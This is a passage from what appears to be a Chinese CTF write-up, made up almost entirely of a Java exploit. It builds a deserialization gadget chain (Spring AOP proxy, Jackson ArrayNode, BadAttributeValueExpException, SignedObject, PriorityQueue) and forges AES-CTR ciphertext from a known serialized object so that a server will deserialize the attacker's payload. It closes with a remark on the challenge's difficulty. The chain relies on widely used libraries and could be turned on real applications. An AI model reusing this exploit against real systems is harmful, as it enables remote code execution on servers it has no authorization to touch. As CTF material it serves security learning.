//        Field f = BadAttributeValueExpException.class.getDeclaredField("val");
//        f.setAccessible(true);
//        f.set(ex,arrayNode);
//
//        serialize(ex);
//        System.out.println(getb64(ex));
//        System.out.println(getb64(ex).length());
//        unserialize();

        //稳定触发

        AdvisedSupport support = new AdvisedSupport();
        support.setTarget(tmp);
        Constructor constructor = Class.forName("org.springframework.aop.framework.JdkDynamicAopProxy").getConstructor(AdvisedSupport.class);
        constructor.setAccessible(true);
        InvocationHandler handler = (InvocationHandler) constructor.newInstance(support);
        Templates proxy = (Templates) Proxy.newProxyInstance(Templates.class.getClassLoader(),new Class[]{Templates.class},handler);

        ObjectMapper objmapper = new ObjectMapper();
        ArrayNode arrayNode =objmapper.createArrayNode();
        arrayNode.addPOJO(proxy);

        BadAttributeValueExpException ex = new BadAttributeValueExpException("1"); //反射绕过构造方法限制
        Field f = BadAttributeValueExpException.class.getDeclaredField("val");
        f.setAccessible(true);
        f.set(ex,arrayNode);

//        serialize(ex);
//        System.out.println(getb64(ex));
//        System.out.println(getb64(ex).length());
//        unserialize();

        KeyPairGenerator kpg = KeyPairGenerator.getInstance("DSA");
        kpg.initialize(1024);
        KeyPair kp = kpg.generateKeyPair();
        SignedObject signedObject = new SignedObject((Serializable) ex, kp.getPrivate(), Signature.getInstance("DSA"));
//        signedObject.getObject();

        FieldGetterHandler handler1 = new FieldGetterHandler();
        setValue(handler1,"fieldName","Object");
        ClassLoader classLoader = Comparator.class.getClassLoader();
        Class<?>[] interfaces = {Comparator.class};
        Comparator proxyInstance = (Comparator) Proxy.newProxyInstance(classLoader, interfaces, handler1);

        Object[] queue = new Object[]{signedObject,123};
        PriorityQueue priorityQueue = new PriorityQueue(1);
        setValue(priorityQueue,"queue",queue);
        setValue(priorityQueue,"comparator",proxyInstance);
        setValue(priorityQueue,"size",2);
//        TestCrypto.testLength(priorityQueue);

        String b64Capsule = "rO0ABXNyABpjb20uY3RmLmVudGl0eS5UaW1lQ2Fwc3VsZd9OKsPP21QiAgAETAAHY29udGVudHQAEkxqYXZhL2xhbmcvU3RyaW5nO0wACWNyZWF0ZWRBdHQAGUxqYXZhL3RpbWUvTG9jYWxEYXRlVGltZTtMAAtjcmVhdG9yTmFtZXEAfgABTAACaWR0ABBMamF2YS9sYW5nL0xvbmc7eHB0DPFiYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhc3IADWphdmEudGltZS5TZXKVXYS6GyJIsgwAAHhwdw4FAAAH6QQHERAwA9CQAHh0AAFhc3IADmphdmEubGFuZy5Mb25nO4vkkMyPI98CAAFKAAV2YWx1ZXhyABBqYXZhLmxhbmcuTnVtYmVyhqyVHQuU4IsCAAB4cAAAAAAAAAAF";
        byte[] originCapsule = Base64.getDecoder().decode(b64Capsule);
        String encryptData = "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";
        String fake = CTRForgeUtil.forgeCTR(encryptData,originCapsule,TestCrypto.testLength(priorityQueue));
        System.out.println("
=======
Fake:");
        System.out.println(fake);


    }
}
```

总结：题质量可以，但是放在线下赛未免有些太难了，在线下高压环境下很难想到这么多，只能做个Fix
